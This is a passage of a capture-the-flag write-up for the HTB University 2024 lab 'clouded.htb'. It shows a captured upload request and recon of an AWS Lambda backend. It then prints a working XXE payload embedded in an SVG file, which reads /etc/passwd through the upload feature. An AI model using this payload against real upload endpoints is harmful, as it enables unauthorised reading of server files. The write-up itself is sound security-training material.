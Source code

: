 This is what the upload post request looks like:
```
POST /upload/prod/lambda HTTP/1.1
Host: clouded.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://clouded.htb/upload.html
Content-Type: application/json
Content-Length: 53
Origin: http://clouded.htb
Connection: keep-alive
Priority: u=4

{"filename":"test.pdf","fileData":"aGVsbG8gd29ybGQK"}
```

We see that the POST request is pointing towards /upload/prod/lambda and the fileData are encoded in base64. After some testing we realised we could put anything in the fileData field and we would be able to download the file back without any issues. 

The exception being with .svg files. When we would upload an svg file without the correct format we would get an error.

We then tried to do some recon on our newly found domain local.clouded.htb and we found out it was an AWS bucket running behind which used a restAPI and an AWS lambda function.

![AWS lambda](/HTB-UNIVERSITY-2024/images/aws_lambda.png)

## User flag

After a bit more searching and testing we managed to find an XXE injection in the upload feature of the website!

We used this payload:


```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```
When we downloaded the file from the url the site gave us it had the content of /etc/passwd in it !
